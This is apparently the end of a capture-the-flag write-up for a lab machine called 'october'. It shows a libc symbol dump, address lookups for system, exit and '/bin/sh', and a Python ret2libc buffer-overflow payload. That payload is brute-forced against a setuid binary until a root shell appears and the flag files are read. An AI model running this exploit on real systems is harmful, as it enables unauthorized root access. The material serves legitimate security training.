   337: 001256a0   481 FUNC    WEAK   DEFAULT   12 dl_iterate_phdr@@GLIBC_2.2.4
   338: 0011a8a0    95 FUNC    GLOBAL DEFAULT   12 key_get_conv@@GLIBC_2.1
   339: 0010f150   161 FUNC    GLOBAL DEFAULT   12 __nss_disable_nscd@@GLIBC_PRIVATE
   340: 000b7020   218 FUNC    GLOBAL DEFAULT   12 getpwent_r@@GLIBC_2.1.2
   341: 000e96b0   118 FUNC    WEAK   DEFAULT   12 mmap64@@GLIBC_2.1
   342: 000df9c0    72 FUNC    GLOBAL DEFAULT   12 sendfile@@GLIBC_2.1
   343: 0012ae70    53 FUNC    GLOBAL DEFAULT   12 getpwent_r@GLIBC_2.0
   344: 0010a870   105 FUNC    GLOBAL DEFAULT   12 inet6_rth_init@@GLIBC_2.5
   345: 0002e250   149 FUNC    WEAK   DEFAULT   12 ldexpl@@GLIBC_2.0
   346: 0010a6d0   120 FUNC    GLOBAL DEFAULT   12 inet6_opt_next@@GLIBC_2.5
   347: 0002f620    78 FUNC    GLOBAL DEFAULT   12 __libc_allocate_rtsig_pri@@GLIBC_PRIVATE
   348: 0006d720   174 FUNC    GLOBAL DEFAULT   12 ungetwc@@GLIBC_2.2
   349: 001167b0   216 FUNC    GLOBAL DEFAULT   12 ecb_crypt@@GLIBC_2.1
   350: 000a34f0    56 FUNC    GLOBAL DEFAULT   12 __wcstof_l@@GLIBC_2.1
   351: 000b3d20    31 FUNC    GLOBAL DEFAULT   12 versionsort@@GLIBC_2.1
   352: 0011d460     5 FUNC    GLOBAL DEFAULT   12 xdr_longlong_t@@GLIBC_2.1.1
   353: 000ea200    81 FUNC    WEAK   DEFAULT   12 tfind@@GLIBC_2.0
   354: 0004d410    52 FUNC    GLOBAL DEFAULT   12 _IO_printf@@GLIBC_2.0
   355: 0007f230    85 FUNC    GLOBAL DEFAULT   12 __argz_next@@GLIBC_2.0
   356: 00096f20    51 FUNC    WEAK   DEFAULT   12 wmemcpy@@GLIBC_2.0
   357: 000f0200   206 FUNC    GLOBAL DEFAULT   12 recvmmsg@@GLIBC_2.12
   358: 000dc840   116 FUNC    GLOBAL DEFAULT   12 __fxstatat64@@GLIBC_2.4
   359: 000d79e0    94 FUNC    GLOBAL DEFAULT   12 posix_spawnattr_init@@GLIBC_2.2
   360: 0002f0a0    33 FUNC    GLOBAL DEFAULT   12 __sigismember@@GLIBC_2.0
   361: 00083300    46 FUNC    GLOBAL DEFAULT   12 __memcpy_by2@@GLIBC_2.1.1
   362: 000de6b0   188 FUNC    GLOBAL DEFAULT   12 get_current_dir_name@@GLIBC_2.0
   363: 000f07a0   111 FUNC    GLOBAL DEFAULT   12 semctl@@GLIBC_2.2
   364: 0012d3c0   105 FUNC    GLOBAL DEFAULT   12 semctl@GLIBC_2.0
   365: 000694f0    47 FUNC    GLOBAL DEFAULT   12 fputc_unlocked@@GLIBC_2.0
   366: 000eab90    35 FUNC    GLOBAL DEFAULT   12 verr@@GLIBC_2.0
   367: 000832d0    35 FUNC    GLOBAL DEFAULT   12 __memcpy_by4@@GLIBC_2.1.1
   368: 000980d0    87 FUNC    WEAK   DEFAULT   12 mbsrtowcs@@GLIBC_2.0
   369: 00101b60   306 FUNC    GLOBAL DEFAULT   12 getprotobynumber@@GLIBC_2.0
   370: 000f4cf0   436 FUNC    GLOBAL DEFAULT   12 fgetsgent@@GLIBC_2.10
   371: 00113df0   265 FUNC    GLOBAL DEFAULT   12 getsecretkey@@GLIBC_2.0
   372: 0010fbc0   139 FUNC    GLOBAL DEFAULT   12 __nss_services_lookup2@@GLIBC_PRIVATE
   373: 000df260    74 FUNC    GLOBAL DEFAULT   12 unlinkat@@GLIBC_2.4
   374: 0014bd20    45 FUNC    GLOBAL DEFAULT   14 __libc_thread_freeres@@GLIBC_PRIVATE
   375: 00027ca0    22 FUNC    WEAK   DEFAULT   12 isalnum_l@@GLIBC_2.3
   376: 00113fa0    77 FUNC    GLOBAL DEFAULT   12 xdr_authdes_verf@@GLIBC_2.1
   377: 001acc20   152 OBJECT  GLOBAL DEFAULT   31 _IO_2_1_stdin_@@GLIBC_2.1
   378: 000fdd80    26 FUNC    GLOBAL DEFAULT   12 __fdelt_chk@@GLIBC_2.15
   379: 00036090    68 FUNC    GLOBAL DEFAULT   12 __strtof_internal@@GLIBC_2.0
   380: 000b3910    79 FUNC    WEAK   DEFAULT   12 closedir@@GLIBC_2.0
   381: 000b53f0   217 FUNC    GLOBAL DEFAULT   12 initgroups@@GLIBC_2.0
   382: 000ff940   103 FUNC    GLOBAL DEFAULT   12 inet_ntoa@@GLIBC_2.0
   383: 000a34f0    56 FUNC    WEAK   DEFAULT   12 wcstof_l@@GLIBC_2.3
   384: 00027390   181 FUNC    GLOBAL DEFAULT   12 __freelocale@@GLIBC_2.1
   385: 0012af70  7268 FUNC    GLOBAL DEFAULT   12 glob64@GLIBC_2.1
   386: 000fe8d0   252 FUNC    GLOBAL DEFAULT   12 __fwprintf_chk@@GLIBC_2.4
   387: 00111b80   288 FUNC    GLOBAL DEFAULT   12 pmap_rmtcall@@GLIBC_2.0
   388: 000be260  7268 FUNC    GLOBAL DEFAULT   12 glob64@@GLIBC_2.2
   389: 00067900   233 FUNC    WEAK   DEFAULT   12 putc@@GLIBC_2.0
   390: 000b8120   121 FUNC    WEAK   DEFAULT   12 nanosleep@@GLIBC_2.0
   391: 000f3b20   174 FUNC    GLOBAL DEFAULT   12 setspent@@GLIBC_2.0
   392: 000dde40    60 FUNC    WEAK   DEFAULT   12 fchdir@@GLIBC_2.0
   393: 0011d560    55 FUNC    GLOBAL DEFAULT   12 xdr_char@@GLIBC_2.0
   394: 000fc0a0    70 IFUNC   GLOBAL DEFAULT   12 __mempcpy_chk@@GLIBC_2.3.4
   395: 00064150   210 FUNC    GLOBAL DEFAULT   12 fopencookie@@GLIBC_2.2
   396: 00128c30    88 FUNC    GLOBAL DEFAULT   12 fopencookie@GLIBC_2.0
   397: 0002da70    51 FUNC    GLOBAL DEFAULT   12 __isinf@@GLIBC_2.0
   398: 00099f90    64 FUNC    WEAK   DEFAULT   12 wcstoll_l@@GLIBC_2.3
   399: 00056030    98 FUNC    WEAK   DEFAULT   12 ftrylockfile@@GLIBC_2.0
   400: 00109b30   172 FUNC    GLOBAL DEFAULT   12 endaliasent@@GLIBC_2.0
   401: 00027cc0    23 FUNC    WEAK   DEFAULT   12 isalpha_l@@GLIBC_2.3
   402: 0006a0d0   362 FUNC    GLOBAL DEFAULT   12 _IO_wdefault_pbackfail@@GLIBC_2.2
   403: 000694d0    13 FUNC    GLOBAL DEFAULT   12 feof_unlocked@@GLIBC_2.0
   404: 0010f980   141 FUNC    GLOBAL DEFAULT   12 __nss_passwd_lookup2@@GLIBC_PRIVATE
   405: 00027bd0    39 FUNC    GLOBAL DEFAULT   12 isblank@@GLIBC_2.0
   406: 000e8690    63 FUNC    GLOBAL DEFAULT   12 getusershell@@GLIBC_2.0
   407: 0011b610    89 FUNC    GLOBAL DEFAULT   12 svc_sendreply@@GLIBC_2.0
   408: 00027450   105 FUNC    WEAK   DEFAULT   12 uselocale@@GLIBC_2.3
   409: 000d7570    74 FUNC    WEAK   DEFAULT   12 re_search_2@@GLIBC_2.0
   410: 000b5610   306 FUNC    GLOBAL DEFAULT   12 getgrgid@@GLIBC_2.0
   411: 0002eff0   167 FUNC    GLOBAL DEFAULT   12 siginterrupt@@GLIBC_2.0
   412: 000eed00   137 FUNC    GLOBAL DEFAULT   12 epoll_wait@@GLIBC_2.3.2
   413: 0006ccf0   266 FUNC    GLOBAL DEFAULT   12 fputwc@@GLIBC_2.2
   414: 000eae90   223 FUNC    WEAK   DEFAULT   12 error@@GLIBC_2.0
   415: 000dc360    70 FUNC    GLOBAL DEFAULT   12 mkfifoat@@GLIBC_2.4
   416: 000eed90    60 FUNC    GLOBAL DEFAULT   12 get_kernel_syms@@GLIBC_2.0
   417: 0012dc00    53 FUNC    GLOBAL DEFAULT   12 getrpcent_r@GLIBC_2.0
   418: 00103500   220 FUNC    GLOBAL DEFAULT   12 getrpcent_r@@GLIBC_2.1.2
   419: 00064630   404 FUNC    WEAK   DEFAULT   12 ftell@@GLIBC_2.0
   420: 000560d0   257 FUNC    GLOBAL DEFAULT   12 __isoc99_scanf@@GLIBC_2.7
   421: 001aefc0   512 OBJECT  GLOBAL DEFAULT   32 _res@GLIBC_2.0
   422: 000fd170    91 FUNC    GLOBAL DEFAULT   12 __read_chk@@GLIBC_2.4
   423: 0010bb20   706 FUNC    GLOBAL DEFAULT   12 inet_ntop@@GLIBC_2.0
   424: 0002e570   204 FUNC    WEAK   DEFAULT   12 signal@@GLIBC_2.0
   425: 0007b050    82 IFUNC   GLOBAL DEFAULT   12 strncpy@@GLIBC_2.0
   426: 0010d1c0    27 FUNC    GLOBAL DEFAULT   12 __res_nclose@@GLIBC_2.2
   427: 000fedd0   169 FUNC    GLOBAL DEFAULT   12 __fgetws_unlocked_chk@@GLIBC_2.4
   428: 000e63c0   111 FUNC    GLOBAL DEFAULT   12 getdomainname@@GLIBC_2.0
   429: 000ef070    60 FUNC    WEAK   DEFAULT   12 personality@@GLIBC_2.0
   430: 000657e0   421 FUNC    WEAK   DEFAULT   12 puts@@GLIBC_2.0
   431: 000f2e70   122 FUNC    GLOBAL DEFAULT   12 __iswupper_l@@GLIBC_2.1
   432: 00041f00    72 FUNC    GLOBAL DEFAULT   12 mbstowcs@@GLIBC_2.0
   433: 000fc4a0   200 FUNC    GLOBAL DEFAULT   12 __vsprintf_chk@@GLIBC_2.3.4
   434: 00026b90  1615 FUNC    GLOBAL DEFAULT   12 __newlocale@@GLIBC_2.1
   435: 000e5170    81 FUNC    GLOBAL DEFAULT   12 getpriority@@GLIBC_2.0
   436: 00040a60   284 FUNC    GLOBAL DEFAULT   12 getsubopt@@GLIBC_2.0
   437: 000b81a0   765 FUNC    WEAK   DEFAULT   12 fork@@GLIBC_2.0
   438: 000e4bb0   193 FUNC    GLOBAL DEFAULT   12 tcgetsid@@GLIBC_2.1
   439: 00055eb0    53 FUNC    GLOBAL DEFAULT   12 putw@@GLIBC_2.0
   440: 000ee090    66 FUNC    GLOBAL DEFAULT   12 ioperm@@GLIBC_2.0
   441: 000eab70    27 FUNC    GLOBAL DEFAULT   12 warnx@@GLIBC_2.0
   442: 00065ec0   405 FUNC    GLOBAL DEFAULT   12 _IO_setvbuf@@GLIBC_2.0
   443: 001116a0   245 FUNC    GLOBAL DEFAULT   12 pmap_unset@@GLIBC_2.0
   444: 000f2590   168 FUNC    WEAK   DEFAULT   12 iswspace@@GLIBC_2.0
   445: 00125c50    65 FUNC    GLOBAL DEFAULT   12 _dl_mcount_wrapper_check@@GLIBC_2.1
   446: 000336d0   268 FUNC    GLOBAL DEFAULT   12 __cxa_thread_atexit_impl@@GLIBC_2.18
   447: 001226f0    30 FUNC    GLOBAL DEFAULT   12 isastream@@GLIBC_2.1
   448: 0006dbb0    58 FUNC    GLOBAL DEFAULT   12 vwscanf@@GLIBC_2.2
   449: 0006d350   272 FUNC    GLOBAL DEFAULT   12 fputws@@GLIBC_2.2
   450: 0002e930   141 FUNC    WEAK   DEFAULT   12 sigprocmask@@GLIBC_2.0
   451: 00071280    75 FUNC    GLOBAL DEFAULT   12 _IO_sputbackc@@GLIBC_2.0
   452: 00035270    51 FUNC    WEAK   DEFAULT   12 strtoul_l@@GLIBC_2.3
   453: 00083780    26 FUNC    GLOBAL DEFAULT   12 __strchr_c@@GLIBC_2.1.1
   454: 000ebb50    66 FUNC    GLOBAL DEFAULT   12 listxattr@@GLIBC_2.3
   455: 00160870    16 OBJECT  GLOBAL DEFAULT   15 in6addr_loopback@@GLIBC_2.1
   456: 000d7200    86 FUNC    WEAK   DEFAULT   12 regfree@@GLIBC_2.0
   457: 00034530    67 FUNC    WEAK   DEFAULT   12 lcong48_r@@GLIBC_2.0
   458: 000c51a0    64 FUNC    WEAK   DEFAULT   12 sched_getparam@@GLIBC_2.0
   459: 000ff910    42 FUNC    GLOBAL DEFAULT   12 inet_netof@@GLIBC_2.0
   460: 000283c0    35 FUNC    WEAK   DEFAULT   12 gettext@@GLIBC_2.0
   461: 00111080   668 FUNC    GLOBAL DEFAULT   12 callrpc@@GLIBC_2.0
   462: 000b7d30   197 FUNC    WEAK   DEFAULT   12 waitid@@GLIBC_2.1
   463: 000837a0    28 FUNC    GLOBAL DEFAULT   12 __strchr_g@@GLIBC_2.1.1
   464: 000e7ca0   178 FUNC    WEAK   DEFAULT   12 futimes@@GLIBC_2.3
   465: 0006aa30   108 FUNC    GLOBAL DEFAULT   12 _IO_init_wmarker@@GLIBC_2.2
   466: 0002f1c0   187 FUNC    GLOBAL DEFAULT   12 sigfillset@@GLIBC_2.0
   467: 000e6f40    61 FUNC    GLOBAL DEFAULT   12 gtty@@GLIBC_2.0
   468: 000a9150    32 FUNC    GLOBAL DEFAULT   12 time@@GLIBC_2.0
   469: 000eea50    60 FUNC    WEAK   DEFAULT   12 ntp_adjtime@@GLIBC_2.1
   470: 000b5550   154 FUNC    GLOBAL DEFAULT   12 getgrent@@GLIBC_2.0
   471: 00076840   308 FUNC    GLOBAL DEFAULT   12 __libc_malloc@@GLIBC_2.0
   472: 000ff030    59 FUNC    GLOBAL DEFAULT   12 __wcsncpy_chk@@GLIBC_2.4
   473: 000b3a50   327 FUNC    WEAK   DEFAULT   12 readdir_r@@GLIBC_2.0
   474: 0002f570    98 FUNC    GLOBAL DEFAULT   12 sigorset@@GLIBC_2.0
   475: 00071730    32 FUNC    GLOBAL DEFAULT   12 _IO_flush_all@@GLIBC_2.0
   476: 000e5fd0   127 FUNC    WEAK   DEFAULT   12 setreuid@@GLIBC_2.0
   477: 00055100    56 FUNC    WEAK   DEFAULT   12 vfscanf@@GLIBC_2.0
   478: 00077140    20 FUNC    WEAK   DEFAULT   12 memalign@@GLIBC_2.0
   479: 000342a0    44 FUNC    GLOBAL DEFAULT   12 drand48_r@@GLIBC_2.0
   480: 001016e0   172 FUNC    GLOBAL DEFAULT   12 endnetent@@GLIBC_2.0
   481: 00129ac0   267 FUNC    GLOBAL DEFAULT   12 fsetpos64@GLIBC_2.1
   482: 000664b0   314 FUNC    GLOBAL DEFAULT   12 fsetpos64@@GLIBC_2.2
   483: 000e9c40   529 FUNC    GLOBAL DEFAULT   12 hsearch_r@@GLIBC_2.0
   484: 000fde20    26 FUNC    GLOBAL DEFAULT   12 __stack_chk_fail@@GLIBC_2.4
   485: 000a6020    82 FUNC    WEAK   DEFAULT   12 wcscasecmp@@GLIBC_2.1
   486: 00066dc0   161 FUNC    GLOBAL DEFAULT   12 _IO_feof@@GLIBC_2.0
   487: 0011a3e0    87 FUNC    GLOBAL DEFAULT   12 key_setsecret@@GLIBC_2.1
   488: 000e94c0   376 FUNC    GLOBAL DEFAULT   12 daemon@@GLIBC_2.0
   489: 000dc510   163 FUNC    GLOBAL DEFAULT   12 __lxstat@@GLIBC_2.0
   490: 0011e630   310 FUNC    GLOBAL DEFAULT   12 svc_run@@GLIBC_2.0
   491: 0006a240   152 FUNC    GLOBAL DEFAULT   12 _IO_wdefault_finish@@GLIBC_2.2
   492: 000998f0    64 FUNC    GLOBAL DEFAULT   12 __wcstoul_l@@GLIBC_2.1
   493: 0012d430    95 FUNC    GLOBAL DEFAULT   12 shmctl@GLIBC_2.0
   494: 000f0990    98 FUNC    GLOBAL DEFAULT   12 shmctl@@GLIBC_2.2
   495: 000eeef0    64 FUNC    GLOBAL DEFAULT   12 inotify_rm_watch@@GLIBC_2.4
   496: 00063990   244 FUNC    GLOBAL DEFAULT   12 _IO_fflush@@GLIBC_2.0
   497: 0011dac0     5 FUNC    GLOBAL DEFAULT   12 xdr_quad_t@@GLIBC_2.3.4
   498: 000df220    60 FUNC    WEAK   DEFAULT   12 unlink@@GLIBC_2.0
   499: 00097c50   592 FUNC    GLOBAL DEFAULT   12 __mbrtowc@@GLIBC_2.0
   500: 00066610   248 FUNC    GLOBAL DEFAULT   12 putchar@@GLIBC_2.0
   501: 0011dfe0    50 FUNC    GLOBAL DEFAULT   12 xdrmem_create@@GLIBC_2.0
   502: 000fb5f0    57 FUNC    GLOBAL DEFAULT   12 pthread_mutex_lock@@GLIBC_2.0
   503: 000ef950    63 FUNC    GLOBAL DEFAULT   12 listen@@GLIBC_2.0
   504: 000697e0   163 FUNC    GLOBAL DEFAULT   12 fgets_unlocked@@GLIBC_2.1
   505: 000f3700  1032 FUNC    GLOBAL DEFAULT   12 putspent@@GLIBC_2.0
   506: 0011dba0    77 FUNC    GLOBAL DEFAULT   12 xdr_int32_t@@GLIBC_2.1
   507: 000f0530   221 FUNC    WEAK   DEFAULT   12 msgrcv@@GLIBC_2.0
   508: 00108d00   108 FUNC    GLOBAL DEFAULT   12 __ivaliduser@@GLIBC_2.0
   509: 000efb10   121 FUNC    WEAK   DEFAULT   12 __send@@GLIBC_2.0
   510: 000e6470   149 FUNC    WEAK   DEFAULT   12 select@@GLIBC_2.0
   511: 00103040   154 FUNC    GLOBAL DEFAULT   12 getrpcent@@GLIBC_2.0
   512: 000f2430   168 FUNC    WEAK   DEFAULT   12 iswprint@@GLIBC_2.0
   513: 000f5240   218 FUNC    GLOBAL DEFAULT   12 getsgent_r@@GLIBC_2.10
   514: 000f2970   121 FUNC    GLOBAL DEFAULT   12 __iswalnum_l@@GLIBC_2.1
   515: 000dcd60    64 FUNC    WEAK   DEFAULT   12 mkdir@@GLIBC_2.0
   516: 00027d80    22 FUNC    WEAK   DEFAULT   12 ispunct_l@@GLIBC_2.3
   517: 001af7fc     4 OBJECT  GLOBAL DEFAULT   32 argp_program_version_hook@@GLIBC_2.1
   518: 00068fe0    54 FUNC    GLOBAL DEFAULT   12 __libc_fatal@@GLIB
www-data@october:/dev/shm$
```

```sh
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   243: 0011b710    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:/dev/shm$
```

```sh
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   446: 000336d0   268 FUNC    GLOBAL DEFAULT   12 __cxa_thread_atexit_impl@@GLIBC_2.18
   554: 000b84f4    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   609: 0011e5f0    56 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   645: 00033660    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   868: 00033490    84 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1037: 00128b50    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1380: 001ac204     4 OBJECT  GLOBAL DEFAULT   31 argp_err_exit_status@@GLIBC_2.1
  1492: 000fb480    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2090: 001ac154     4 OBJECT  GLOBAL DEFAULT   31 obstack_exit_failure@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fbff0     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
www-data@october:/dev/shm$
```

```sh
www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 162bac /bin/sh
www-data@october:/dev/shm$
```

``buf.py``

```python
from subprocess import call
import struct

libc_base_addr = 0xb7593000

system_off = 0x00040310		# Address of system
exit_off = 0x00033260		# Address of exit
arg_off = 0x00162bac		# Address of /bin/sh

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)   
arg_addr = struct.pack("<I",libc_base_addr+arg_off)    

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr

print buf
```

```sh
www-data@october:/dev/shm$ python buf.py
Try: 0
Try: 1
Try: 2
Try: 3
Try: 4
Try: 5
Try: 6
Try: 7
Try: 8
Try: 9
Try: 10
Try: 11
Try: 12
Try: 13
Try: 14
Try: 15
Try: 16
Try: 17
Try: 18
Try: 19
Try: 20
Try: 21
Try: 22
ovrflw: ../iconv/skeleton.c:737: __gconv_transform_utf8_internal: Assertion `nstatus == __GCONV_FULL_OUTPUT' failed.
Try: 23
Try: 24
Try: 25
Try: 26
Try: 27
Try: 28
Try: 29
Try: 30
Try: 31
Try: 32
Try: 33
Try: 34
Try: 35
Try: 36
Try: 37
Try: 38
Try: 39
Try: 40
Try: 41
Try: 42
Try: 43
Try: 44
Try: 45
Try: 46
Try: 47
Try: 48
Try: 49
Try: 50
Try: 51
Try: 52
ovrflw: ../stdlib/strtod_l.c:1648: Assertion `empty == 1' failed.
Try: 53
Try: 54
Try: 55
Try: 56
Try: 57
Try: 58
Try: 59
Try: 60
Try: 61
Try: 62
Try: 63
Try: 64
Try: 65
Try: 66
Try: 67
Try: 68
Try: 69
Try: 70
Try: 71
Try: 72
Try: 73
Try: 74
Try: 75
Try: 76
Try: 77
Try: 78
Try: 79
Try: 80
Try: 81
Try: 82
Try: 83
Try: 84
Try: 85
Try: 86
Try: 87
Try: 88
Try: 89
Try: 90
Try: 91
Try: 92
Try: 93
Try: 94
Try: 95
Try: 96
*** Error in `/usr/local/bin/ovrflw': munmap_chunk(): invalid pointer: 0xbfa70eab ***
Try: 97
Try: 98
Try: 99
Try: 100
Try: 101
Try: 102
Try: 103
Try: 104
Try: 105
Try: 106
Try: 107
Try: 108
Try: 109
Try: 110
Try: 111
Try: 112
Try: 113
Try: 114
Try: 115
Try: 116
Try: 117
Try: 118
Try: 119
Try: 120
Try: 121
Try: 122
Try: 123
Try: 124
Try: 125
Try: 126
Try: 127
Try: 128
Try: 129
Try: 130
Try: 131
Try: 132
Try: 133
Try: 134
Try: 135
Try: 136
Try: 137
Try: 138
Try: 139
Try: 140
Try: 141
Try: 142
Try: 143
Try: 144
Try: 145
Try: 146
Try: 147
ovrflw: ../stdlib/strtod_l.c:1648: ____wcstold_l_internal: Assertion `empty == 1' failed.
Try: 148
Try: 149
Try: 150
Try: 151
Try: 152
Try: 153
Try: 154
Try: 155
Try: 156
Try: 157
Try: 158
Try: 159
Try: 160
Try: 161
Try: 162
Try: 163
Try: 164
Try: 165
Try: 166
Try: 167
Try: 168
ovrflw: malloc.c:4070: �A
                         �A�A�CP�
A�A�
    AA�B
        <: Assertion `heap->ar_ptr == av' failed.
Try: 169
Try: 170
Try: 171
Try: 172
Try: 173
ovrflw: ../stdlib/strtod_l.c:1648: Assertion `empty == 1' failed.
Try: 174
Try: 175
Try: 176
Try: 177
Try: 178
Try: 179
Try: 180
Try: 181
Try: 182
Try: 183
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
#
```

```sh
# cat /root/root.txt
6bcb9cff749c9318d2a6e71bbcf30318
#
```

```sh
# cat /home/harry/user.txt
29161ca87aa3d34929dc46efc40c89c0
#
```